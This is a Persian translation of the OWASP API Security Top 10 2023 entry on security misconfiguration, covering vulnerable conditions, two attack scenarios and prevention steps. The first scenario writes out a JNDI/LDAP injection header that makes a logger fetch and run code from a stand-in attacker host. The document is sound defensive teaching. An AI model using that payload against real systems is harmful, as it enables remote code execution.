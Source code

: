 

# API8:2023 پیکربندی امنیتی نادرست
---
| پیامد | عوامل تهدید / مسیر حمله | ضعف امنیتی |
|------------|--------------------|---------|
| پیکربندی امنیتی نادرست نه تنها می‌تواند اطلاعات حساس کاربر را افشا کند بلکه جزئیاتی از سیستم که ممکن است به از دست رفتن کامل سرور منجر شود را نیز در معرض خطر قرار می‌دهد. | پیکربندی امنیتی نادرست می‌تواند در هر سطحی از API، از سطح شبکه تا سطح اپلیکشن روی دهد. ابزارهای خودکاری وجود دارند که فرایند تشخیص و بهره برداری از پیکربندی‌های نادرست نظیر تشخیص سرویس‌های غیرضروری را انجام می‌دهند. | مهاجمین غالبا در تلاش برای یافتن حفره‌های وصله نشده، توابع رایج یا فایل‌ها و مسیرهای محافظت نشده به منظور دسترسی غیرمجاز به سیستم هستند. اطلاعات و تکنیک‌های مرتبط با این مسائل به طور عمومی در دسترس بوده و احتمال وقوع حمله در مورد آنها وجود دارد. |


### آیا API از نظر پیکربندی امنیتی نادرست‌‌‌آسیب‌پذیر است؟
---
API از منظر پیکربندی امنیتی نادرست ‌‌‌آسیب‌پذیر است اگر:

- ایمن سازی امنیتی مناسب در هر قسمت از پشته اپلیکیشن رعایت نشده یا اپلیکیشن مجوزهای با پیکربندی نادرست روی سرویس‌‌‌‌های ابری داشته باشد.
- جدیدترین وصله‌‌‌‌های امنیتی نصب نشده و سیستم‌‌‌‌ها کاملا بروز نباشند.
- ویژگی غیرضروری (نظیر Verb اضافی HTTP) فعال باشند.
- تفاوت‌هایی در نحوه پردازش درخواست‌های ورودی توسط سرورها در زنجیره سرور HTTP وجود داشته باشد.
- امنیت لایه انتقال (TLS) غیرفعال باشد.
- دستورات و الزامات امنیتی (نظیر  <LINK> سرایندهای امنیتی) به سوی کلاینت ارسال نشوند.
- خط مشی اشتراک متقابل منابع (CORS) وجود نداشته یا به درستی ‌پیاده‌سازی نشده باشد.
- پیام‌‌‌‌های خطا ردپای پشته یا اطلاعات حساس دیگر را افشا نمایند.

### مثال‌‌‌‌هایی از سناریوهای حمله
---
#### سناریو #1

سروری از API یک نرم‌افزار ثبت دسترسی معتبر و متن‌باز با قابلیت توسعه و پشتیبانی از جستجوهای JNDI (واسطه نام‌گذاری و دایرکتوری جاوا) برای ثبت درخواست‌ها و دسترسی‌ها استفاده می‌کند. برای هر درخواست جدید، یک ورودی جدید با الگوی زیر ثبت می‌شود: `http <method> <api_version>/<path> - <status_code>` یک عامل مخرب، درخواست API مشخصی را ارسال می‌کند که در فایل گزارش دسترسی نوشته می‌شود:

```http
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

اگر مهاجم از یک سرور کنترل از راه دور برای اجرای یک کد مخرب با نام  `Malicious.class`  استفاده کرده و این کد را در سرآیند درخواست `X-Api-Version` قرار دهد، نرم‌افزار گزارش‌دهی، به دلیل تنظیمات پیش‌فرض ناامن خود، این کد مخرب را از سرور مهاجم دانلود کرده و اجرا می‌کند.


#### سناریو #2

یک وب‌سایت شبکه‌ی اجتماعی امکان ارسال "پیام مستقیم" را فراهم کرده که به کاربران امکان برقراری گفت‌وگوی خصوصی را می‌دهد. برای دریافت پیام‌های جدید در یک گفت‌وگو خاص، وب‌سایت درخواست API زیر را ارسال می‌کند (نیازی به تعامل کاربری نیست):

```http
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```


پاسخ API شامل هدر پاسخ `HTTP Cache-Control` نمی‌شود، به همین علت گفت‌وگوهای خصوصی در مرورگر وب ذخیره شده و به مهاجمان اجازه می‌دهد که آنها را از فایل‌های حافظه نهان مرورگر در فایل‌سیستم بازیابی کنند.

### چگونه از ‌‌‌آسیب‌پذیری پیکربندی امنیتی نادرست پیشگیری کنیم؟
---
چرخه حیات API بایستی شامل موارد زیر باشد:

- فرایندی تکرار شونده برای ایمن سازی API که منجر به ‌پیاده‌سازی سریع و آسان یک محیط ایمن شود.
- فرایندی برای بازبینی و بروزرسانی پیکربندی‌‌‌‌ها در سراسر پشته API؛ این بازبینی بایستی موارد از جمله بازبینی هماهنگی بین فایل‌‌‌‌ها، مولفه‌‌‌‌های API و سرویس‌‌‌‌های ابری (نظیر مجوزهای باکت‌‌‌‌های S3) را دربرگیرد.
- فرایندی خودکار جهت ارزیابی پیوسته و مداوم اثربخشی پیکربندی و تنظیمات اعمال شده در سراسر محیط API و اپلیکیشن.

بعلاوه:

- حصول اطمینان از این که تمام ارتباطات API از سمت مشتری به سرور و هر کارکردهای دیگر روی یک کانال ارتباطی رمزنگاری شده (TLS) انجام می‌شود؛ بدون توجه به اینکه آیا این API داخلی است یا به صورت عمومی منتشر شده است.
- حصول اطمینان از اینکه API فقط به افعال HTTP مدنظر توسعه دهنده پاسخ می دهد و غیرفعال کردن سایر افعال (نظیر HEAD).
- APIهایی که انتظار می‌رود دسترسی به آنها از طریق کلاینت‌‌‌‌های مبتنی بر مرورگر (مثلا فرانت WebApp) باشد:
  - بایستی خط مشی CORS مناسب را بکار گیرند.
  - شامل سرآیندهای امنیتی قابل اجرا باشند.
  - محتوا و فرمت‌ داده‌های ورودی را طوری محدود کنید که با نیازها و عملکرد کسب‌وکار سازگار باشند.
- برای جلوگیری از مشکلات عدم هماهنگی، مطمئن شوید که تمام سرورها در زنجیره سرورهای HTTP (مانند توازن بار، پروکسی‌های معکوس و پیشرو و back-end) درخواست‌های ورودی را به شیوه‌ای یکنواخت پردازش می‌کنند.
- در موارد قابل اجرا، تمام طرح‌های بارگیری پاسخ API تعریف و اعمال شود، از جمله پاسخ‌های خطا، تا از ارسال جزئیات اشتباه و اطلاعات مهم به مهاجمان جلوگیری گردد.
- برای همه پاسخ‌هایی که از API دریافت می‌شود، حتی پاسخ‌های شامل پیغام خطا، یک نقشه ساختاری دقیق تعریف شود. این اقدام باعث می‌شود که جزئیات خطاها و سایر اطلاعات حساس به مهاجمان ارسال نشود.

## مراجع

---

- [OWASP](https://owasp.org/)
- [OWASP Secure Headers Project](https://owasp.org/www-project-secure-headers/)
- [Configuration and Deployment Management Testing - Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Testing for Error Handling - Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Testing for Cross Site Request Forgery - Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)


#### خارجی


- [CWE-2: Environmental Security Flaws](https://cwe.mitre.org/data/definitions/2.html)
- [CWE-16: Configuration](https://cwe.mitre.org/data/definitions/16.html)
- [CWE-209: Generation of Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/209.html)
- [CWE-319: Cleartext Transmission of Sensitive Information](https://cwe.mitre.org/data/definitions/319.html)
- [CWE-388: Error Handling](https://cwe.mitre.org/data/definitions/388.html)
- [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')](https://cwe.mitre.org/data/definitions/444.html)
- [CWE-942: Permissive Cross-domain Policy with Untrusted Domains](https://cwe.mitre.org/data/definitions/942.html)
- [Guide to General Server Security NIST](https://csrc.nist.gov/publications/detail/sp/800-123/final)
- [Let's Encrypt: a free automated and open Certificate Authority](https://letsencrypt.org/)




  

